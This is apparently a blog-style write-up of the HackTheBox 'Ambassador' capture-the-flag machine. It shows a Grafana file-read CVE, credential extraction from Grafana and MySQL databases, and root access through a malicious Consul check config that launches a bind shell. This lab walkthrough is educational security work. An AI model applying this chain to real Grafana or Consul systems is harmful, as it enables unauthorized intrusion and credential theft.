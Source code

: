 ```yaml
---
title: "HTB Ambassador"
date: 2023-01-13T23:30:00+03:00
tags: ["hackthebox", "hackthebox-medium", "ctf"]
---
```


Ambassador is the medium difficulty hackthebox machine.

<!--more-->

## Enumeration

Running nmap tells us that there is Grafana on port 3000 and MySQL on port 3306.

By doing a quick google search we can find out that it's vulnerable to
unauthorized arbitrary file read attack
([CVE-2021-43798](https://nvd.nist.gov/vuln/detail/CVE-2021-43798)).

## Machine break-in

Then we exploit that vulerability to get `grafana.db` (see
[this](https://github.com/jas502n/Grafana-CVE-2021-43798) or
[this](https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798) as
references).

As we can see, it's the sqlite3 db:
```shell-session
$ file grafana.db
grafana.db: SQLite 3.x database, last written using SQLite version 3035004 <...>
```

Next, open it with the `sqlite3` cli tool:
```shell-session {hl_lines=10}
$ sqlite3
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> .open grafana.db
sqlite> .tables
<...>
dashboard_version           temp_user
data_source                 test_data
kv_store                    user
<...>
```

We remember that we saw an open MySQL port, so we should be particularly
interested in the `data_source` table as it may contain some credentials.
Expectedly, it really does:
```shell-session
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||<password>|grafana|grafana|<...>
```

Next, log into MySQL:
```shell-session {hl_lines=15}
$ mariadb -h 10.10.11.183 -u grafana -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
<...>

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.075 sec)
```

There's one database with an attractive name, let's check it:
```shell-session {hl_lines=18}
MySQL [mysql]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.051 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | <b64pass>                                |
+-----------+------------------------------------------+
1 row in set (0.068 sec)
```

Looks like a base64 encoded string, why don't we try to decode?
```shell-session
$ echo <b64pass> | base64 -d
<pass>
```

And that's the correct password of the developer user!
```shell-session
$ ssh developer@10.10.11.183
developer@10.10.11.183's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)
<...>
```

The user flag is there, so we head for the root one.

## Privilege escalation

We can notice that we have write permissions on `/etc/consul.d/config.d`
directory (via regular enumeration, e.g. `find / -group developer 2>/dev/null |
grep -v proc`).
Also, if we look at the running processes, we can notice that `consul` is
started as `/usr/bin/consul agent -config-dir=/etc/consul.d/config.d
-config-file=/etc/consul.d/consul.hcl`.
A quick look at the [Consul documentation](
https://developer.hashicorp.com/consul/docs/agent/config/cli-flags#_config_dir)
tells us that any file in that directory with `.json` or `.hcl` suffix will be
sourced by Consul.

Further exploration tells that [we can write a check](
https://developer.hashicorp.com/consul/tutorials/developer-discovery/service-registration-health-checks#write-a-script-interval-check
) in json format that executes arbitrary local program.
Let's put a [bind shell](
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md#python
) in `/home/developer/bindshell.py` (don't forget the shebang!) and put an
appropriate check config to `/etc/consul.d/config.d` named e.g. `bindshell.json`.
It may look like:
```json
{
  "check": {
    "id": "bindshell",
    "name": "Bind Shell",
    "args": [
      "/home/developer/bindshell.py"
    ],
    "interval": "10s",
    "timeout": "600s"
  }
}
```

*(That's not the only way, however: somewhat easier would be, for example, to
place an SUID on bash.)*

Ok, we've placed our malicious configuration. Now we need Consul to read it.

Expectedly, it requires an access token for operations such as `reload`. Where
would we find one?

Well, in the home directory of `developer` there is `.gitconfig`, which suggests
that `/opt/my-app` is a git repository:
```shell-session {hl_lines=6}
$ cat .gitconfig
[user]
	name = Developer
	email = developer@ambassador.local
[safe]
	directory = /opt/my-app
```
In `/opt/my-app/whackywidget` we can see the MySQL credentials deployment script
that utilizes Consul. It lacks both Consul and MySQL credentials, however. Maybe
there is something interesting about that in git history? And there is! The last
commit removed the token from that script, so we can easily find it in diff with
`git show`:
```diff {hl_lines=16}
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token <token> whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

Now running `consul reload -token=<token>` should be enough to make our bind
shell appear.

Subsequent actions are trivial.
